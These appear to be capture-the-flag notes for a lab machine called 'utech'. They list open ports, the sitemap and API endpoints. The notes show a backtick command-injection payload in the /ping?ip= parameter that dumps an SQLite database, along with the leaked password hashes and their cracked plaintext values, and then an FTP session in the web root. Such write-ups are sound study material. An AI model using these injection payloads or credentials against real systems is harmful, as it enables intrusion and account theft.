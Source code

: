 # Ports
21/tcp    open  ftp
22/tcp    open  ssh
8081/tcp  open  blackice-icecap
31331/tcp opne  unknown

# robots.txt
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt

## Content of /utech_sitemap.txt
/
/index.html
/what.html
/partners.html

# API on port 8081
/ping?ip=
/auth?login={}&password={}

## ping test
payload = `ls` (with `` to execution in node)
ping: utech.db.sqlite: Name or service not known

payload = `cat utech.db.sqlite`
ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded

## Credentials
r00t f357a0c52799563c7c7b76c1e7543a32   --> n100906
admin 0d0ea5111e3c1def594c1684e3b9be84  --> mrsheafy

## Login page
Restricted area
Hey r00t, can you please have a look at the server's configuration?
The intern did it and I don't really trust him.
Thanks!

lp1

# FTP
```bash
cd ..
cd www
cd api
ls
```
    - index.js
    - node_modules
    - package-lock.json
    - package.json
    - start.sh
    - utech.db.sqlite
```bash
get start.sh
```

